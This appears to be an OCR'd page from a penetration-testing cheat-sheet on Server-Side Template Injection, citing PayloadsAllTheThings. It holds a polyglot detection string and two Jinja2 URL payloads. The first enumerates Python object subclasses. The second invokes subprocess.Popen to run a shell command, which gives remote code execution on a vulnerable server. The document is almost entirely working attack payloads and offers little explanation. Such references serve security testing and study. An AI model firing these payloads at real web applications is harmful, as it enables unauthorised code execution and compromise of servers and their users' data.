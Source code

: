 # Server-Side Template Injection (SSTI)
```
${{<%[%'"}}%    # Special characteres for detection
```
## Python
### Jinja2
```
http://[URL]/{{ ''.__class__.__mro__[1].__subclasses__() }}   # To list all objects
http://[URL]/{{ ''.__class__.__mro__[1].__subclasses__()[401]("whoami", shell=True, stdout=-1).communicate() }}   # Using subprocess.Popen index in 401 to achieve rce
```
Ref: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
